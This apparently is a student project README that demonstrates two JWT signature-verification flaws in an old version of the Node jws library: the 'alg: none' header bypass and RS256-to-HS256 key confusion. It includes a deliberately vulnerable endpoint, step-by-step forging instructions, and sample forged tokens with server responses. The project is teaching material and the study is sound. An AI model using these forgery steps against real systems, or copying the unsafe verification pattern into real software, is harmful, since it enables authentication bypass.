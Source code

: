 # jwt-security-vulnerabilities  
school project for class "security for developers" in 2nd semester of top-up programme at UCN. based on written extended abstract: https://drive.google.com/file/d/1gNvA0Xint7NBhOBOb9H0OPjXazjL4G6B/view?usp=sharing

## description
project demostrates discovered and patched security vulnerabilities in popular node library generating jws by using both latest (secure) version 4.0 (22.11.2021 at the time of writing) and (unsafe) version 2.0 that is now deprecated. first vulnerability origins from using alg header parameter from token instead which can be easily modified by the attacker. second vulnerability origins from the fact that alg can be changed from asymmetric algorithm like rs256 to symmetric one like hs256. since public key is often easily accessible (hence the name) attacker can forge tokens that alters header parameter to alg: hs256 and such token will be considered valid. issue is well described here: https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/. 

### setup
1. npm install
2. use npm start to watch files, transpile them to javascript on detected file change and spin web server on port 3000
3. use npm run build to build project (ts -> js)
4. (optional) import postman collection for easy start

### endpoints
1. POST /auth/login - no body required - returns token
2. POST /auth/verify/safe - authorization header with bearer token required - returns 200 or 401
endpoint uses patched safe version of jws library
3. POST /auth/verify/unsafe - authorization header with bearer token required - returns 200 or 401
endpoint uses unpatched unsafe version of jws library (version 2)
4. GET /auth/key - returns public key
5. GET /auth/hacker/base64EncodedHeaderWithAlgNone - returns base64 encoded version of header "{ "alg": "none" }"
6. GET /auth/hacker/tokenFromPublicKey - returns hs256 token that was signed with a public key - accepted by /auth/verify/unsafe endpoint

### steps to exploit header alg none parameter vulnerability
1. obtain token
2. verify that token is accepted by both /auth/verify/safe and /auth/verify/unsafe
3. token can be manipulated by the attacker by changing alg in header to none (obtain from /auth/hacker/base64EncodedHeaderWithAlgNone) and replacing the first part of the token and removing signature part so header.payload.signature becomes newHeader.payload. (notice the trailing dot!!!!)
4. such token is not accepted by /auth/verify/safe but passes as valid in /auth/verify/unsafe
```
POST /auth/login
eyJhbGciOiJSUzI1NiJ9.eyJwYXNzd29yZCI6InBhc3N3b3JkIiwidXNlcm5hbWUiOiJhZG1pbiJ9.V3vtGMj6YXx4y8g3QNvhiI13K1UQtqkMVy6SG8qW7e_2VwHZYvf-uPOZlzoIzV7Z0yKyRQRR1AMPFaIttSaLkw

GET /auth/hacker/base64EncodedHeaderWithAlgNone
eyJhbGciOiJub25lIn0=

# alter the token by replacing the header (first part) and removing signature
eyJhbGciOiJSUzI1NiJ9.eyJwYXNzd29yZCI6InBhc3N3b3JkIiwidXNlcm5hbWUiOiJhZG1pbiJ9.V3vtGMj6YXx4y8g3QNvhiI13K1UQtqkMVy6SG8qW7e_2VwHZYvf-uPOZlzoIzV7Z0yKyRQRR1AMPFaIttSaLkw
=>
eyJhbGciOiJub25lIn0=.eyJwYXNzd29yZCI6InBhc3N3b3JkIiwidXNlcm5hbWUiOiJhZG1pbiJ9.

# verify token with existing endpoints
POST /auth/verify/safe Authorization: eyJhbGciOiJub25lIn0=.eyJwYXNzd29yZCI6InBhc3N3b3JkIiwidXNlcm5hbWUiOiJhZG1pbiJ9. 401
POST /auth/verify/unsafe Authorization: eyJhbGciOiJub25lIn0=.eyJwYXNzd29yZCI6InBhc3N3b3JkIiwidXNlcm5hbWUiOiJhZG1pbiJ9. 200
```

### steps to exploit altering header parameter alg rs256 to alg hs256
1. obtain token
2. verify that token is accepted by both /auth/verify/safe and /auth/verify/unsafe
3. rs256 is asymmetric algorithm requiring key pair - private to sign and public to verify. since the public key is, well, public anyone can ahold of it. jws2.0 considers alg parameter in header as absolute truth therefore forging your own token with public key yields token that passes as valid. to obtain such token call /auth/hacker/tokenFromPublicKey. it creates token from header "{ "alg": "hs256" }", payload and public key as a secret. 
4. such token is not accepted by /auth/verify/safe but passes as valid in /auth/verify/unsafe
```
POST /auth/login
eyJhbGciOiJSUzI1NiJ9.eyJwYXNzd29yZCI6InBhc3N3b3JkIiwidXNlcm5hbWUiOiJhZG1pbiJ9.V3vtGMj6YXx4y8g3QNvhiI13K1UQtqkMVy6SG8qW7e_2VwHZYvf-uPOZlzoIzV7Z0yKyRQRR1AMPFaIttSaLkw

GET /auth/hacker/tokenFromPublicKey
eyJhbGciOiJIUzI1NiJ9.eyJwYXNzd29yZCI6InBhc3N3b3JkIiwidXNlcm5hbWUiOiJhZG1pbiJ9.Zgl3PR_haCrMgSuL6jHLj7efV3iEHleqM_JgMQIs918

POST /auth/verify/safe Authorization: eyJhbGciOiJIUzI1NiJ9.eyJwYXNzd29yZCI6InBhc3N3b3JkIiwidXNlcm5hbWUiOiJhZG1pbiJ9.Zgl3PR_haCrMgSuL6jHLj7efV3iEHleqM_JgMQIs918 401
POST /auth/verify/unsafe Authorization: eyJhbGciOiJIUzI1NiJ9.eyJwYXNzd29yZCI6InBhc3N3b3JkIiwidXNlcm5hbWUiOiJhZG1pbiJ9.Zgl3PR_haCrMgSuL6jHLj7efV3iEHleqM_JgMQIs918 200
```

### source code
all token related code is in src/auth
- src/auth/repository.ts - generating and verifying functions
- src/auth/routes.ts - api endpoints
- src/auth/types.ts - ts typings